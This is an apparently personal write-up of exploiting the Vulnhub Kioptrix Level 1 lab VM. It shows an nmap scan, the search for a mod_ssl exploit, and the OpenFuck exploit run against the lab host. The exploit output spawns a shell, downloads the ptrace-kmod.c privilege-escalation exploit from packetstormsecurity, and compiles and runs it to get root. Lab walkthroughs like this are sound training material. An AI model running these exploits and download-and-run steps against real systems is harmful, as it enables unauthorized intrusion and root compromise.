 ### Kioptrix Level 1 \(Beginner Level VM\)

```
kaipowered@debian:~/Documents/Vulnhub/Kioptrix$ nmap -sC -sV -oA nmapscan 192.168.8.4

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-16 14:13 +08
Nmap scan report for 192.168.8.4
Host is up (0.68s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-08-16T06:15:47+00:00; +1m51s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: mean: 1m50s, deviation: 0s, median: 1m50s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.74 seconds
```

====================================================

No interesting files/directories found in dirbuster

====================================================

The vulnerable service is

`443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b`

* searchploit this "mod\_ssl/2.8.4"

* found available exploit for the vulnerable mod\_ssl/2.8.4

* openfuck exploit: [https://www.exploit-db.com/exploits/764/](https://www.exploit-db.com/exploits/764/)

* updating the exploit: [http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/)

* if there are errors in compilation install the following libssl versions.

* link on how i solved the compilation error: [http://www.chokepoint.net/2017/04/fixing-and-troubleshooting-openfuck.html](http://www.chokepoint.net/2017/04/fixing-and-troubleshooting-openfuck.html)

* after compiling and generated the exec file, run this command`./openfuck 0x6b 192.168.8.4 443 -c 40`

      kaipowered@debian:~/Documents/Vulnhub/Kioptrix$ ./openfuck 0x6b 192.168.8.4 443 -c 40

      *******************************************************************
      * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
      *******************************************************************
      * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
      * #hackarena  irc.brasnet.org                                     *
      * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
      * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
      * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
      *******************************************************************

      Connection... 40 of 40
      Establishing SSL connection
      cipher: 0x4043808c   ciphers: 0x80f81e8
      Ready to send shellcode
      Spawning shell...
      bash: no job control in this shell
      bash-2.05$ 
      exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
      --03:14:47--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
                 => `ptrace-kmod.c'
      Connecting to dl.packetstormsecurity.net:80... connected!
      HTTP request sent, awaiting response... 301 Moved Permanently
      Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
      --03:14:48--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
                 => `ptrace-kmod.c'
      Connecting to dl.packetstormsecurity.net:443... connected!
      HTTP request sent, awaiting response... 200 OK
      Length: 3,921 [text/x-csrc]

          0K ...                                                   100% @ 478.64 KB/s

      03:14:50 (478.64 KB/s) - `ptrace-kmod.c' saved [3921/3921]

      [+] Attached to 6502
      [+] Waiting for signal
      [+] Signal caught
      [+] Shellcode placed at 0x4001189d
      [+] Now wait for suid shell...

we got root!

Note:

```
I tried dirbustering the web server but i haven't found any interesting files/directories.
```

```

I also searched some available exploits in rpcbind but in turns out that the nfs protocol must be present or active in order to exploit the rpc service.

I also tried the exploit/multi/samba/usermap\_script but it didn't work.

This vm is for beginners.
```





